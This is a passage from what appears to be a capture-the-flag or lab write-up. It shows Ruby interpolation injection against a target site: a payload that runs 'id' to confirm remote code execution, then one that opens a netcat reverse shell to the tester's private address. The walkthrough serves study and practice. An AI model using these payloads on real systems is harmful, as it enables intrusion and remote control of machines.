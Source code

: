 **Key points:** 
- Programming language: `Ruby`

### 3.1. Reverse Shell by RCE

As the site is developed with Ruby, I tried this payload that allows me to make a RCE.

```ruby
#{ %x|id| }
```

![](/assets/images/Fianso-5.png)

I got the data from the current user, that means I could try a Reverse Shell:

```ruby
#{ %x|nc -e /bin/bash 192.168.0.103 8888| }
```

![](/assets/images/Fianso-6.png)

